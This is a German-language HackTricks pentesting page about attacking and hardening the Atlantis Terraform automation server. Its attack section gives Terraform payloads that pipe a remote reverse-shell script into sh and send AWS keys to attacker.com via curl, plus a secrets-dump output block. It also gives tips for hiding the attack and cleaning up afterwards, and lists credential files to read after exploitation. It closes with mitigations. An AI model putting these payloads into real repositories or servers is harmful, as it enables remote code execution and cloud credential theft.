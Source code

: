 # Atlantis Sicherheit

<details>

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>
{% endhint %}

## Grundlegende Informationen

Atlantis hilft Ihnen grundsätzlich dabei, Terraform von Pull Requests von Ihrem Git-Server aus auszuführen.

![](<../.gitbook/assets/image (161).png>)

## Lokales Labor

1. Gehen Sie zur **Atlantis-Releases-Seite** unter [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) und **laden** Sie diejenige herunter, die zu Ihnen passt.
2. Erstellen Sie einen **persönlichen Token** (mit Repo-Zugriff) Ihres **Github**-Benutzers.
3. Führen Sie `./atlantis testdrive` aus, und es wird ein **Demo-Repo** erstellt, das Sie verwenden können, um mit Atlantis zu kommunizieren.
1. Sie können die Webseite unter 127.0.0.1:4141 aufrufen.

## Atlantis-Zugriff

### Git-Server-Anmeldeinformationen

**Atlantis** unterstützt mehrere Git-Hosts wie **Github**, **Gitlab**, **Bitbucket** und **Azure DevOps**.\
Um jedoch auf die Repos in diesen Plattformen zuzugreifen und Aktionen auszuführen, muss diesen Plattformen einige **privilegierter Zugriff gewährt werden** (mindestens Schreibberechtigungen).\
[**Die Dokumentation**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) empfiehlt, einen Benutzer speziell für Atlantis in diesen Plattformen zu erstellen, aber einige Personen verwenden möglicherweise persönliche Konten.

{% hint style="warning" %}
In jedem Fall wird das **Atlantis-Konto** aus der Sicht eines Angreifers sehr **interessant sein**, **zu kompromittieren**.
{% endhint %}

### Webhooks

Atlantis verwendet optional [**Webhook-Secrets**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret), um zu validieren, dass die **Webhooks**, die es von Ihrem Git-Host erhält, **legitim** sind.

Eine Möglichkeit, dies zu bestätigen, wäre, **Anfragen nur von den IPs** Ihres Git-Hosts zuzulassen, aber ein einfacherer Weg ist die Verwendung eines Webhook-Secrets.

Beachten Sie, dass Sie, es sei denn, Sie verwenden einen privaten Github- oder Bitbucket-Server, die Webhook-Endpunkte ins Internet freigeben müssen.

{% hint style="warning" %}
Atlantis wird **Webhooks freigeben**, damit der Git-Server ihm Informationen senden kann. Aus der Sicht eines Angreifers wäre es interessant zu wissen, **ob Sie ihm Nachrichten senden können**.
{% endhint %}

### Anbieter-Anmeldeinformationen <a href="#provider-credentials" id="provider-credentials"></a>

[Aus der Dokumentation:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis führt Terraform einfach aus, indem es `terraform plan` und `apply`-Befehle auf dem Server **ausführt, auf dem Atlantis gehostet ist**. Genau wie beim lokalen Ausführen von Terraform benötigt Atlantis Anmeldeinformationen für Ihren spezifischen Anbieter.

Es liegt an Ihnen, wie Sie [Anmeldeinformationen bereitstellen](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) für Ihren spezifischen Anbieter an Atlantis:

* Das Atlantis [Helm-Chart](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) und das [AWS Fargate-Modul](https://www.runatlantis.io/docs/deployment.html#aws-fargate) haben ihre eigenen Mechanismen für Anbieter-Anmeldeinformationen. Lesen Sie deren Dokumentation.
* Wenn Sie Atlantis in einer Cloud ausführen, haben viele Clouds Möglichkeiten, Cloud-API-Zugriff auf Anwendungen zu geben, die auf ihnen ausgeführt werden, z. B.:
* [AWS EC2-Rollen](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Suche nach "EC2-Rolle")
* [GCE-Instanzdienstkonten](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Viele Benutzer setzen Umgebungsvariablen, z. B. `AWS_ACCESS_KEY`, dort, wo Atlantis ausgeführt wird.
* Andere erstellen die erforderlichen Konfigurationsdateien, z. B. `~/.aws/credentials`, dort, wo Atlantis ausgeführt wird.
* Verwenden Sie den [HashiCorp Vault-Provider](https://registry.terraform.io/providers/hashicorp/vault/latest/docs), um Anbieter-Anmeldeinformationen zu erhalten.

{% hint style="warning" %}
Der **Container**, in dem **Atlantis** **läuft**, wird höchstwahrscheinlich **privilegierte Anmeldeinformationen** für die Anbieter (AWS, GCP, Github...) enthalten, die Atlantis über Terraform verwaltet.
{% endhint %}

### Web-Seite

Standardmäßig wird Atlantis eine **Webseite im Port 4141 auf localhost** ausführen. Diese Seite ermöglicht es Ihnen nur, atlantis apply zu aktivieren/deaktivieren und den Planstatus der Repos zu überprüfen und sie zu entsperren (es erlaubt keine Änderungen, daher ist es nicht so nützlich).

Sie werden sie wahrscheinlich nicht im Internet freigegeben finden, aber standardmäßig scheint es, dass **keine Anmeldeinformationen erforderlich sind**, um darauf zuzugreifen (und wenn sie benötigt werden, sind `atlantis`:`atlantis` die **Standard**-Anmeldeinformationen).

## Serverkonfiguration

Die Konfiguration des `atlantis server` kann über Befehlszeilenoptionen, Umgebungsvariablen, eine Konfigurationsdatei oder eine Kombination der drei angegeben werden.

* Sie finden [**hier die Liste der unterstützten Flags**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) des Atlantis-Servers.
* Sie finden [**hier, wie Sie eine Konfigurationsoption in eine Umgebungsvariable umwandeln**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables).

Die Werte werden in dieser Reihenfolge **ausgewählt**:

1. Flags
2. Umgebungsvariablen
3. Konfigurationsdatei

{% hint style="warning" %}
Beachten Sie, dass in der Konfiguration möglicherweise interessante Werte wie **Tokens und Passwörter** enthalten sind.
{% endhint %}

### Repos-Konfiguration

Einige Konfigurationen betreffen, **wie die Repos verwaltet werden**. Es ist jedoch möglich, dass **jedes Repo unterschiedliche Einstellungen erfordert**, daher gibt es Möglichkeiten, jedes Repo anzugeben. Dies ist die Prioritätsreihenfolge:

1. Repo [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config)-Datei. Diese Datei kann verwendet werden, um anzugeben, wie Atlantis das Repo behandeln soll. Einige Schlüssel können jedoch standardmäßig nicht ohne einige Flags hier angegeben werden.
1. Möglicherweise erforderlich, um durch Flags wie `allowed_overrides` oder `allow_custom_workflows` zugelassen zu werden.
2. [**Serverseitige Konfiguration**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Sie können sie mit der Flagge `--repo-config` übergeben, und es handelt sich um eine YAML-Konfiguration, die neue Einstellungen für jedes Repo konfiguriert (Regexe werden unterstützt).
3. **Standard**-Werte
#### PR-Schutz

Atlantis ermöglicht es anzugeben, ob Sie möchten, dass der **PR** von jemand anderem **`genehmigt`** wird (auch wenn dies nicht in der Branch-Schutzrichtlinie festgelegt ist) und/oder **`zusammenführbar`** ist (Branch-Schutzrichtlinien bestanden) **bevor apply ausgeführt wird**. Aus Sicherheitssicht wird empfohlen, beide Optionen zu setzen.

Wenn `allowed_overrides` True ist, können diese Einstellungen in jedem Projekt durch die Datei `/atlantis.yml` **überschrieben werden**.

#### Skripte

Die Repo-Konfiguration kann **Skripte angeben**, die [**vor**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_Pre-Workflow-Hooks_) und [**nach**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_Post-Workflow-Hooks_) **Ausführung eines Workflows ausgeführt werden**.

Es gibt keine Option, um **diese Skripte in der Repo-Datei `/atlantis.yml`** anzugeben.

#### Workflow

In der Repo-Konfiguration (Server-seitige Konfiguration) können Sie [**einen neuen Standardworkflow angeben**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow) oder [**neue benutzerdefinierte Workflows erstellen**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Sie können auch angeben, welche **Repos** auf die **neu** generierten **zugreifen** können.\
Dann können Sie der **atlantis.yaml**-Datei jedes Repos erlauben, den zu verwendenden Workflow **anzugeben**.

{% hint style="danger" %}
Wenn die [**Server-seitige Konfiguration**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) die Flagge `allow_custom_workflows` auf **True** gesetzt ist, können Workflows in der **`atlantis.yaml`**-Datei jedes Repos **angegeben** werden. Möglicherweise ist es auch erforderlich, dass **`allowed_overrides`** auch **`workflow`** angibt, um den Workflow zu **überschreiben**, der verwendet werden soll.\
Dies gibt im Wesentlichen **RCE im Atlantis-Server für jeden Benutzer, der auf dieses Repo zugreifen kann**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Conftest Richtlinienprüfung

Atlantis unterstützt das Ausführen von **serverseitigen** [**conftest**](https://www.conftest.dev/) **Richtlinien** gegen die Plan-Ausgabe. Häufige Anwendungsfälle für die Verwendung dieses Schritts sind:

* Verweigerung der Verwendung einer Liste von Modulen
* Überprüfung von Attributen eines Ressourcen bei der Erstellung
* Erfassen unbeabsichtigter Ressourcenlöschungen
* Verhindern von Sicherheitsrisiken (z. B. das Freigeben sicherer Ports für die Öffentlichkeit)

Sie können überprüfen, wie Sie es in [**der Dokumentation**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works) konfigurieren können.

## Atlantis Befehle

In [**der Dokumentation**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) finden Sie die Optionen, die Sie verwenden können, um Atlantis auszuführen:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Angriffe

{% hint style="warning" %}
Wenn Sie während der Ausnutzung diesen **Fehler** finden: `Error: Error acquiring the state lock`

Sie können es beheben, indem Sie ausführen:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis Plan RCE - Konfigurationsänderung in neuem PR

Wenn Sie Schreibzugriff auf ein Repository haben, können Sie einen neuen Branch erstellen und einen PR generieren. Wenn Sie `atlantis plan` ausführen können (oder es wird möglicherweise automatisch ausgeführt), können Sie RCE innerhalb des Atlantis-Servers ausführen.

Sie können dies erreichen, indem Sie Atlantis dazu bringen, eine externe Datenquelle zu laden. Fügen Sie einfach ein Payload wie folgt in die `main.tf`-Datei ein:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Unauffälligerer Angriff

Sie können diesen Angriff sogar auf eine **unauffälligere Weise** durchführen, indem Sie diesen Vorschlägen folgen:

* Anstatt die Rev-Shell direkt in die Terraform-Datei einzufügen, können Sie eine **externe Ressource laden**, die die Rev-Shell enthält:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Du kannst den Rev Shell-Code unter [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) finden.

* In der externen Ressource verwende das **ref**-Feature, um den **Terraform Rev Shell-Code in einem Branch** im Repo zu verstecken, etwas wie: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Anstatt** einen **PR zu Master zu erstellen**, um Atlantis auszulösen, **erstelle 2 Branches** (test1 und test2) und erstelle einen **PR von einem zum anderen**. Wenn du den Angriff abgeschlossen hast, **entferne einfach den PR und die Branches**.

### Atlantis Plan Secrets Dump

Du kannst **geheime Informationen, die von Terraform verwendet werden**, durch Ausführen von `atlantis plan` (`terraform plan`) dumpen, indem du so etwas in die Terraform-Datei einfügst:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis wendet RCE an - Konfigurationsänderung in neuem PR

Wenn Sie Schreibzugriff auf ein Repository haben, können Sie einen neuen Branch erstellen und einen PR generieren. Wenn Sie **`atlantis apply` ausführen können, können Sie RCE innerhalb des Atlantis-Servers** ausführen.

Sie müssen jedoch normalerweise einige Schutzmechanismen umgehen:

- **Mergeable**: Wenn dieser Schutz in Atlantis festgelegt ist, können Sie **`atlantis apply` nur ausführen, wenn der PR mergeable ist** (was bedeutet, dass der Branch-Schutz umgangen werden muss).
- Überprüfen Sie potenzielle [**Branch-Schutzmechanismen-Umgehungen**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Genehmigt**: Wenn dieser Schutz in Atlantis festgelegt ist, muss ein **anderer Benutzer den PR genehmigen**, bevor Sie `atlantis apply` ausführen können.
- Standardmäßig können Sie den [**Gitbot-Token missbrauchen, um diesen Schutz zu umgehen**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Das Ausführen von **`terraform apply` auf einer bösartigen Terraform-Datei mit** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Sie müssen nur sicherstellen, dass ein Payload wie die folgenden in der Datei `main.tf` endet:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Folgen Sie den **Vorschlägen aus der vorherigen Technik**, um diesen Angriff auf eine **unauffälligere Weise** durchzuführen.

### Terraform Param Injection

Wenn `atlantis plan` oder `atlantis apply` ausgeführt wird, wird Terraform im Hintergrund ausgeführt. Sie können Befehle an Terraform von Atlantis aus übergeben, indem Sie etwas kommentieren wie:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Etwas, das Sie übergeben können, sind Umgebungsvariablen, die möglicherweise hilfreich sind, um einige Schutzmechanismen zu umgehen. Überprüfen Sie Terraform-Umgebungsvariablen unter [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Benutzerdefinierter Workflow

Ausführen von **bösartigen benutzerdefinierten Build-Befehlen**, die in einer `atlantis.yaml`-Datei angegeben sind. Atlantis verwendet die `atlantis.yaml`-Datei aus dem Pull-Request-Zweig, **nicht** von `master`.\
Diese Möglichkeit wurde in einem vorherigen Abschnitt erwähnt:

{% hint style="danger" %}
Wenn die [**serverseitige Konfiguration**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) Flag `allow_custom_workflows` auf **True** gesetzt ist, können Workflows in der **`atlantis.yaml`**-Datei jedes Repos **angegeben** werden. Möglicherweise ist es auch erforderlich, dass **`allowed_overrides`** auch **`workflow`** angibt, um den Workflow zu **überschreiben**, der verwendet werden soll.

Dies gibt im Wesentlichen **RCE im Atlantis-Server für jeden Benutzer, der auf dieses Repo zugreifen kann**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Umgehungsplan/Anwendungsschutz

Wenn die [**Serverseitenkonfiguration**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) Flagge `allowed_overrides` so konfiguriert ist, dass `apply_requirements` konfiguriert ist, ist es möglich, dass ein Repository den Plan/Anwendungsschutz ändert, um ihn zu umgehen.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR Hijacking

Wenn jemand **`atlantis plan/apply`-Kommentare auf Ihren gültigen Pull Requests sendet,** wird Terraform ausgeführt, wenn Sie es nicht möchten.

Darüber hinaus, wenn Sie im **Branch-Schutz** nicht konfiguriert haben, um bei jedem **neuen Commit, der darauf geschoben wird,** zu **neubewerten,** könnte jemand **bösartige Konfigurationen** (überprüfen Sie vorherige Szenarien) in der Terraform-Konfiguration schreiben, `atlantis plan/apply` ausführen und RCE erhalten.

Dies ist die **Einstellung** im Github-Branch-Schutz:

![](<../.gitbook/assets/image (216).png>)

### Webhook Secret

Wenn es Ihnen gelingt, das Webhook-Secret zu **stehlen,** das verwendet wird, oder wenn **kein Webhook-Secret** verwendet wird, könnten Sie den Atlantis-Webhook **aufrufen** und **Atlantis-Befehle** direkt aufrufen.

### Bitbucket

Bitbucket Cloud unterstützt **keine Webhook-Secrets**. Dies könnte es Angreifern ermöglichen, Anfragen von Bitbucket zu **fälschen**. Stellen Sie sicher, dass Sie nur Bitbucket-IPs zulassen.

* Dies bedeutet, dass ein **Angreifer** **gefälschte Anfragen an Atlantis** stellen könnte, die so aussehen, als kämen sie von Bitbucket.
* Wenn Sie `--repo-allowlist` angeben, könnten sie nur gefälschte Anfragen zu diesen Repos stellen, sodass der größte Schaden darin bestehen würde, `plan/apply` auf Ihren eigenen Repos durchzuführen.
* Um dies zu verhindern, erlauben Sie [Bitbucket-IP-Adressen](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (siehe ausgehende IPv4-Adressen).

## Post-Exploitation

Wenn es Ihnen gelungen ist, Zugriff auf den Server zu erhalten oder zumindest ein LFI zu haben, gibt es einige interessante Dinge, die Sie versuchen sollten zu lesen:

* `/home/atlantis/.git-credentials` Enthält VCS-Zugriffsberechtigungen
* `/atlantis-data/atlantis.db` Enthält VCS-Zugriffsberechtigungen mit mehr Informationen
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Terraform-Statusdatei
* Beispiel: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Umgebungsvariablen
* `/proc/[2-20]/cmdline` Befehlszeile von `atlantis server` (kann sensible Daten enthalten)

## Maßnahmen

### Nicht auf öffentlichen Repositories verwenden <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Da jeder auf öffentlichen Pull Requests kommentieren kann, selbst mit allen verfügbaren Sicherheitsmaßnahmen, ist es immer noch gefährlich, Atlantis auf öffentlichen Repositories ohne ordnungsgemäße Konfiguration der Sicherheitseinstellungen auszuführen.

### `--allow-fork-prs` nicht verwenden <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Wenn Sie auf einem öffentlichen Repository ausführen (was nicht empfohlen wird, siehe oben), sollten Sie `--allow-fork-prs` nicht festlegen (standardmäßig auf false), da jeder einen Pull-Request von seinem Fork zu Ihrem Repository öffnen kann.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis erfordert, dass Sie eine Liste von Repositories angeben, von denen es Webhooks über den `--repo-allowlist`-Flag akzeptieren wird. Zum Beispiel:

* Spezifische Repositories: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Ihre gesamte Organisation: `--repo-allowlist=github.com/runatlantis/*`
* Jedes Repository in Ihrer GitHub Enterprise-Installation: `--repo-allowlist=github.yourcompany.com/*`
* Alle Repositories: `--repo-allowlist=*`. Nützlich, wenn Sie sich in einem geschützten Netzwerk befinden, aber gefährlich, wenn kein Webhook-Secret festgelegt ist.

Dieses Flag stellt sicher, dass Ihre Atlantis-Installation nicht mit Repositories verwendet wird, die Sie nicht kontrollieren. Siehe `atlantis server --help` für weitere Details.

### Terraform-Planung schützen <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Wenn Angreifer Pull-Requests mit bösartigem Terraform-Code in Ihrem Bedrohungsmodell einreichen, müssen Sie sich bewusst sein, dass `terraform apply`-Genehmigungen nicht ausreichen. Es ist möglich, bösartigen Code in einem `terraform plan` auszuführen, indem der [`external`-Datensource](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) oder durch Angabe eines bösartigen Anbieters verwendet wird. Dieser Code könnte dann Ihre Anmeldeinformationen exfiltrieren.

Um dies zu verhindern, könnten Sie:

1. Anbieter in das Atlantis-Image einbacken oder hosten und in der Produktion den Ausgang blockieren.
2. Implementieren Sie das Anbieter-Registry-Protokoll intern und blockieren Sie öffentlichen Ausgang, so kontrollieren Sie, wer Schreibzugriff auf die Registry hat.
3. Ändern Sie Ihre [serverseitige Repo-Konfiguration](https://www.runatlantis.io/docs/server-side-repo-config.html) im `plan`-Schritt, um gegen die Verwendung von unerlaubten Anbietern oder Datensources oder PRs von nicht erlaubten Benutzern zu validieren. Sie könnten auch an dieser Stelle zusätzliche Validierung hinzufügen, z.B. eine "Zustimmung" zum PR vor der Fortsetzung des `plan` zu verlangen. Conftest könnte hier nützlich sein.

### Webhook-Secrets <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis sollte mit Webhook-Secrets ausgeführt werden, die über die Umgebungsvariablen `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` festgelegt sind. Selbst wenn das `--repo-allowlist`-Flag festgelegt ist, könnten Angreifer ohne Webhook-Secret Anfragen an Atlantis stellen, die sich als ein erlaubtes Repository ausgeben. Webhook-Secrets stellen sicher, dass die Webhook-Anfragen tatsächlich von Ihrem VCS-Anbieter (GitHub oder GitLab) stammen.

Wenn Sie Azure DevOps verwenden, fügen Sie anstelle von Webhook-Secrets einen einfachen Benutzernamen und ein Passwort hinzu.

### Azure DevOps Basic Authentication <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps unterstützt das Senden eines Basic-Authentifizierungs-Headers in allen Webhook-Ereignissen. Dies erfordert die Verwendung einer HTTPS-URL für Ihren Webhook-Standort.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Wenn Sie Webhook-Secrets verwenden, aber Ihr Datenverkehr über HTTP erfolgt, könnten die Webhook-Secrets gestohlen werden. Aktivieren Sie SSL/HTTPS mit den Flags `--ssl-cert-file` und `--ssl-key-file`.

### Authentifizierung auf dem Atlantis-Webserver aktivieren <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Es wird dringend empfohlen, die Authentifizierung im Webdienst zu aktivieren. Aktivieren Sie BasicAuth mit `--web-basic-auth=true` und richten Sie einen Benutzernamen und ein Passwort mit den Flags `--web-username=IhrBenutzername` und `--web-password=IhrPasswort` ein.

Sie können diese auch als Umgebungsvariablen übergeben `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=IhrBenutzername` und `ATLANTIS_WEB_PASSWORD=IhrPasswort`.

## Referenzen

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Lernen & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
{% endhint %}
